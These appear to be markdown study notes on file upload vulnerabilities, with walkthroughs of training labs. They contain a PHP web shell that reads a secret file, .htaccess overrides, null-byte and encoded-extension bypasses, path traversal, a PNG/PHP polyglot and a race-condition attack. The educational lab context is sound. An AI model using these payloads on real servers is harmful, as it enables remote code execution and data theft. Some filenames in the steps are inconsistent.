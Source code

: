 # File Upload
The impact of file upload vulnerabilities generally depends on two key factors:
- Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
- What restrictions are imposed on the file once it has been successfully uploaded.

## File upload restrictions bypass
- **Flawed file type validation:** change `Content-Type` header
- **Preventing file execution in user-accessible directories:** find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all
- **Overriding the server configuration:** Apache servers, for example, will load a directory-specific configuration from a file called `.htaccess` if one is present. Use this `AddType application/x-httpd-php .pucavv` to execute `.pucavv` as `.php` file. Similarly, developers can make directory-specific configuration on IIS servers using a web.config file. This might include directives such as the following, which in this case allows JSON files to be served to users:
`<staticContent><mimeMap fileExtension=".json" mimeType="application/json"/></staticContent>`
- **Obfuscating file extensions:**
  - Provide multiple extensions: `exploit.php.jpg`
  - Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
  - Try using the URL encoding (or double URL encoding): `exploit%2Ephp`
  - Add semicolons or URL-encoded null byte characters before the file extension: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
  - Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization: `xC0 x2E`, `xC4 xAE` or `xC0 xAE`.
  - Using transformation against stripping or replacing defenses: `exploit.p.phphp`
- **Flawed validation of the file's contents:** change the signature of a file using tools like `hexedit` or `exiftool`.

### LAB: Remote code execution via web shell upload
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visits `/files/avatars/test.php` to see the result of the command.

### LAB: Web shell upload via Content-Type restriction bypass
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Intercept `POST /my-account/avatar` request and change the `Content-Type` to `image/jpeg`:

    ------WebKitFormBoundarySLv30wPSW47UnsOn
    Content-Disposition: form-data; name="avatar"; filename="test.php"
    Content-Type: image/jpeg

### LAB: Web shell upload via path traversal
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visit the avatar URL at `/files/avatar/exploit.php` and observe that the code is shown instead of the result of executed one.
Try to upload the `exploit.php` at different location by using path traversal by setting `filename:"../exploit.php"` and observe that the traversal part is stripped by the server:

    The file avatars/test.php has been uploaded.

This time use URL-encoding by setting: `filename:"..%2fexploit.php"` and notice the difference:

    The file avatars/../test.php has been uploaded.

Visit the avatar URL at `files/exploit.php` and retrieve the secret.

### LAB: Web shell upload via extension blacklist bypass
Upload this `.php` file containing:

    <?php echo file_get_contents('/home/carlos/secret') ?>

Visit the avatar URL at `/files/avatar/exploit.php` and observe that `.php` files are not allowed. But notice that the web server is Apache.
Upload this `.htaccess` file to make `.pucavv` files executable as `.php` files:

    AddType application/x-httpd-php .pucavv

Now resend the upload file request with the new filename set to "exploit.pucavv". Visit the avatar URL at `/files/avatar/exploit.php` and retrieve the secret.

### LAB: Web shell upload via obfuscated file extension
Notice that only `.jpeg` or `.png` files are allowed and the server only checks for the suffix to contain those extension.
Make use of null bytes and by setting `filename="exploit.php%00.png"`. This not only bypasses the check from the server but also makes it a valid `.php` file since everything after the null bytes are ignored.
Visit the avatar URL at `/files/avatar/exploit.php` and retrieve the secret.

### LAB: Remote code execution via polyglot web shell upload
The server checks for the signature of a file. Use `hexedit` to modify the header of `exploit.php` to contain the `png` signature:

    �PNG
    

    <?php echo file_get_contents('/home/carlos/secret') ?>

Successfully upload the file and visit the avatar URL to retrieve the secret.

### LAB: Web shell upload via race condition
Upload a normal JPG file and observe that we can access it via:

    GET /files/avatars/test.jpg HTTP/2

Upload the `test.php` file. Send that request to Repeater. Change the previous request to:

    GET /files/avatars/test.php HTTP/2

Group the 2 tabs into a group (might need to duplicate the second request several times). Now send the group in parallel. Notice in 1 of the `GET /files/avatars/test.php` request, there is a response with Carlos' secret. Submit it to solve the lab.